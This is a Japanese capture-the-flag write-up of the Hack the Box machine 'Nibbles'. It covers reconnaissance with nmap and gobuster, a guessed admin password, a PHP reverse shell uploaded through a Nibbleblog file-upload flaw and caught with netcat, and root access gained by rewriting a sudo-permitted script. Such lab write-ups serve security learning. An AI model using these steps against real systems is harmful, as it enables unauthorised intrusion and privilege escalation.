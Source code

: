 ```yaml
---
title: "【Hack the Box write-up】Nibbles"
date:  "2020-06-14T15:04:05+07:00"
author:
  - "さんぽし"
description: "【Hack the Box write-up】Nibbles"
draft: false
tags: ["writeup","Hack the Box"]
categories:
  - "security"
---
```


## はじめに
筆者は Hack the Box 初心者です。
何か訂正や補足、アドバイスなどありましたら、コメントか Twitter までお願いします。
[さんぽし(@sanpo_shiho) | Twitter](https://twitter.com/sanpo_shiho)

## cheat sheet

以下で cheat sheet としてツールの使い方などをまとめています。参考にしてください。
[github | sanposhiho/MY_CHEAT_SHEET](https://github.com/sanposhiho/MY_CHEAT_SHEET)

## machineについて
難易度は easy です

![スクリーンショット 2020-06-14 15.33.29.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/6ef7b88f-0f70-dc79-963c-a77031628fc7.png)

評価が低いマシンでした。
~~ちなみに僕も「ん？」って感じました。~~



## nmap 

```
# Nmap 7.80 scan initiated Sun Jun 14 01:12:49 2020 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /home/kali/AutoRecon/results/10.10.10.75/scans/_quick_tcp_nmap.txt -oX /home/kali/AutoRecon/results/10.10.10.75/scans/xml/_quick_tcp_nmap.xml 10.10.10.75
Increasing send delay for 10.10.10.75 from 0 to 5 due to 13 out of 43 dropped probes since last increase.
Nmap scan report for 10.10.10.75
Host is up, received user-set (0.25s latency).
Scanned at 2020-06-14 01:12:50 EDT for 54s
Not shown: 998 closed ports![スクリーンショット 2020-06-14 15.27.54.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/c70eda51-c6d3-4f29-95dc-356558d755a9.png)
![スクリーンショット 2020-06-14 15.27.46.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/1ca9748c-0749-b0f4-8355-745b6e79c3a8.png)

Reason: 998 conn-refused
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD8ArTOHWzqhwcyAZWc2CmxfLmVVTwfLZf0zhCBREGCpS2WC3NhAKQ2zefCHCU8XTC8hY9ta5ocU+p7S52OGHlaG7HuA5Xlnihl1INNsMX7gpNcfQEYnyby+hjHWPLo4++fAyO/lB8NammyA13MzvJy8pxvB9gmCJhVPaFzG5yX6Ly8OIsvVDk+qVa5eLCIua1E7WGACUlmkEGljDvzOaBdogMQZ8TGBTqNZbShnFH1WsUxBtJNRtYfeeGjztKTQqqj4WD5atU8dqV/iwmTylpE7wdHZ+38ckuYL9dmUPLh4Li2ZgdY6XniVOBGthY5a2uJ2OFp2xe1WS9KvbYjJ/tH
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiFJd2F35NPKIQxKMHrgPzVzoNHOJtTtM+zlwVfxzvcXPFFuQrOL7X6Mi9YQF9QRVJpwtmV9KAtWltmk3qm4oc=
|   256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC/RjKhT/2YPlCgFQLx+gOXhC6W3A3raTzjlXQMT8Msk
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun 14 01:13:44 2020 -- 1 IP address (1 host up) scanned in 54.58 seconds

```

## 80番
![スクリーンショット 2020-06-14 15.27.54.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/0e3a3060-51ea-79fb-f818-1e98868722eb.png)

![スクリーンショット 2020-06-14 15.27.46.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/b7d5c7aa-5ed2-42b0-e87e-fd6e4e2f773a.png)

## /nibbleblog/を開く

![スクリーンショット 2020-06-14 15.32.02.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/7f2ba659-466d-6cb4-bd49-81ef6f8c09bf.png)

nibbleblog のこの version には File Upload Vulnerability があります
https://www.rapid7.com/db/modules/exploit/multi/http/nibbleblog_file_upload

## gobuster

```
kali@kali:~$ gobuster dir -u http://10.10.10.75/nibbleblog/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k -t 40 -x php,txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.75/nibbleblog/
[+] Threads:        40
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt
[+] Timeout:        10s
===============================================================
2020/06/14 02:32:21 Starting gobuster
===============================================================
/index.php (Status: 200)
/sitemap.php (Status: 200)
/content (Status: 301)
/feed.php (Status: 200)
/themes (Status: 301)
/admin (Status: 301)
/admin.php (Status: 200)
/plugins (Status: 301)
/install.php (Status: 200)
/update.php (Status: 200)
/README (Status: 200)
/languages (Status: 301)
[ERROR] 2020/06/14 02:33:28 [!] Get http://10.10.10.75/nibbleblog/servlets.txt: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
/LICENSE.txt (Status: 200)
/COPYRIGHT.txt (Status: 200)
[ERROR] 2020/06/14 02:44:32 [!] Get http://10.10.10.75/nibbleblog/xFS.txt: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/06/14 02:44:32 [!] Get http://10.10.10.75/nibbleblog/5260.php: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/06/14 02:44:32 [!] Get http://10.10.10.75/nibbleblog/News_Readers.php: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/06/14 03:13:08 [!] Get http://10.10.10.75/nibbleblog/prag: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/06/14 03:27:14 [!] Get http://10.10.10.75/nibbleblog/DWT-SpectacularRed.php: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
[ERROR] 2020/06/14 03:43:26 [!] Get http://10.10.10.75/nibbleblog/t10098.php: net/http: request canceled (Client.Timeout exceeded while awaiting headers)
===============================================================
2020/06/14 03:44:49 Finished
===============================================================

```

## /admin.php開く

Login のフォームが出てきます
他のページを割とくまなく探しましたが、credential が出てこず、数回 login 失敗するとブロックされるため hydra 等も使えません。
default credential も存在しないため、低評価であることから、まさかこれは guess か〜？と思ってぽちぽちしてたら、admin/nibbles で通りました。う〜んこれは厳しい…

（数回 login 失敗するとブロック→hydra 等使えない　= bruteforce しなくてもどこかに credentials があるよって言うメッセージなんだろーな〜と思ったんですけどね…）~~（低評価の由縁はこれか〜）~~

## さっきのFile Upload Vulnerability

https://wikihak.com/how-to-upload-a-shell-in-nibbleblog-4-0-3/

これを参考に以下の php の reverseshell のスクリプトを上げます
https://github.com/pentestmonkey/php-reverse-shell

```
kali@kali:~$ nc -lnvp 1212
listening on [any] 1212 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.75] 55886
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 04:35:30 up  3:27,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
nibbler


```

shell が取れました

## /home/nibbler/personal.zip

/home/nibbler/personal.zip を unzip します

```
nibbler@Nibbles:/home/nibbler$ find personal
find personal
personal
personal/stuff
personal/stuff/monitor.sh
```
monitor.sh と言うのが出てきます（中身はあんま関係ないので割愛

## sudo -l

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo -l
sudo -l
sudo: unable to resolve host Nibbles: Connection timed out
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh

```

お👀

## monitor.shを書き換え

```
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo "cat /root/root.txt" > monitor.sh
<er/personal/stuff$ echo "cat /root/root.txt" > monitor.sh                   
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo -u root ./monitor.sh
sudo -u root ./monitor.sh
sudo: unable to resolve host Nibbles: Connection timed out
b6d745c*****************
```

root.txt が取れました

## 終わりに
う〜ん、login にそこそこの時間を費やしました…
精進します


